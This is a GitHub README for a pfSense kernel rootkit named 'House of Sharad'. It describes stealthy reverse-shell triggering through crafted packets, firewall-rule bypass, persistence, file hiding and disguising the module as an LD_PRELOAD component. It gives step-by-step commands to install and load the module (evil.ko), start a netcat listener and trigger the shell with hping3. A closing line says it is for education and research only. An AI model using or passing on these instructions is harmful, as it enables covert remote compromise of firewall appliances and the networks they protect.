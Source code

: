 # House of Sharad - pfSense Rootkit

## 🚀 Overview

House of Sharad is a pfSense rootkit that hooks into the IPv4 stack, allowing for stealthy reverse shells by detecting specially crafted packets.

## 🔥 Huge Thanks

First and foremost, a massive thank you to my friend Sharad (mineo333) for helping implement the core functionality of forking a process and executing kern_execve() in the child. This is what enables command execution when a packet with a specific source port is detected. This rootkit wouldn't be possible without his help.

Additionally, the file-hiding functionality is directly borrowed from BlueDragonSecurity's (bluedragonsecurity) bds_freebsd project. Huge thanks for this work!

## 📌 Compatibility

The precompiled .ko files are only compatible with pfSense 2.7.2 CE.

If you need to compile them yourself, you must do so within a pfSense environment (not just a compatible FreeBSD kernel).

Follow the setup guide: extra/how_to_setup_pfsense_to_compile.txt.

## 🛠️ Features

✅ Hooks into pfSense’s IPv4 stack for stealthy reverse shell execution

✅ Bypasses firewall rules (even if attacker IP/port is blocked)

✅ Persistent LKM-based rootkit

✅ File hiding functionality

✅ Uses socat for reliable reverse shells (FreeBSD’s nc lacks reverse shell support)

## 🏗️ Installation

### 1️⃣ Cloning and Setup

#### Clone the repository
git clone https://github.com/Mon-keyBoy/house_of_sharad.git
cd house_of_sharad

#### Set execution permissions
chmod +x load_and_setup.sh

#### Run the setup script
./load_and_setup.sh

Once the script completes, you'll be inside a ghost /Apekit-tooshit directory. To return to root, run:

cd /

### 2️⃣ Loading the Rootkit

kldload /boot/modules/.evil/evil.ko

## 🛡️ Getting a Reverse Shell

### 1️⃣ Start a Listener

On your attacking machine, open a terminal and start a listener:

nc -lvnp 7000

### 2️⃣ Trigger the Reverse Shell

In another terminal, send packets that will activate the rootkit:

sudo hping3 -S -p 80 -s 6969 <TARGET_IP>

🔹 Port 80 is a good choice for the destination port.
🔹 If the shell doesn’t connect after ~5 packets, press Ctrl + C and re-run the command (packet filtering can be finicky).

## 🧩 Additional Notes

Persistence: This rootkit is loaded via apeshit.sh, which is executed by load_and_setup.sh.

LD_PRELOAD Misdirection: The rootkit falsely appears as an LD_PRELOAD-related module, even though it’s an LKM.

Extra Fun: The extra/ directory contains a simple LKM that prints a face endlessly to the terminal (input still works, but it scrolls rapidly). To stop it, simply unload the module.

# ⚠️ Disclaimer: This project is for educational and research purposes only. Unauthorized use may be illegal. The author takes no responsibility for misuse.

